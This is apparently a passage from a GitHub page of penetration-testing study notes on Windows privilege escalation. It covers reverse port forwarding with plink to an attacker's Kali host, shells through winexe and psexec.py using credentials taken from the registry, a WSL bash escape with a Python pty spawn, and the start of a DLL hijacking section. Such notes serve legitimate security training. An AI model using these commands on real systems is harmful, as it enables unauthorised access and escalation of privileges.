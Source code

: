 3.  transfer plink tool to the Windows machine and run the following command
```
plink.exe -l <KaliUser> -pw <KaliPasswd> -R <ServicePort in Windows>:127.0.0.1:<KaliPort> <KaliIP>
#OR
plink.exe <kaliUser>@<kaliIP> -R <SMBserviceinWindows port 445>:127.0.0.1:<OpenPortInKali>
```
4. run `"netstat -tlp"` on kali to ensure that new port was opened in kali machine
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/16d7e702-43ad-4df4-b91e-7730b80bf267)

5.  now you need to use winexe tool to execute a command in Windows
-     winexe -U Administrator%<Password that you found in the registry> //127.0.0.1 "cmd.exe"
#OR

6. You also can get an elevated shell using [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)
```
psexec.py admin:password123@127.0.0.1 cmd  #creds that you found in registry using winPEASE
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/a224b657-ddd6-4631-8f6b-e295413f9ee3)

# <span style="color:lightblue">Windows Subsystem for Linux</span>

## <span style="color:lightgreen">Methodology</span>
you can think about it as VM in Windows machine. if besh.exe and wsl.exe are installed you are good to go

## <span style="color:lightgreen">Detection</span>
check if bash.exe and wsl.exe are installed
-     where /R c:\windows bash.exe

## <span style="color:lightgreen">Exploitation</span>
run either bash.exe or wsl.exe to get a shell then use python tty escape to get a shell
```
C:\>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
python -c 'import pty; pty.spawn("/bin/bash")'
```
now you are running linux machine. you can use linux commands and continue enumeration

# <span style="color:lightblue">DLL Hijacking</span>

## <span style="color:lightgreen">Methodology</span>
Check DLL Hijacking from hacktricks FYR.

Some servers rely on DLL files at the time, but if the DLL file that the server relies on is deleted, Windows will search it in several paths:
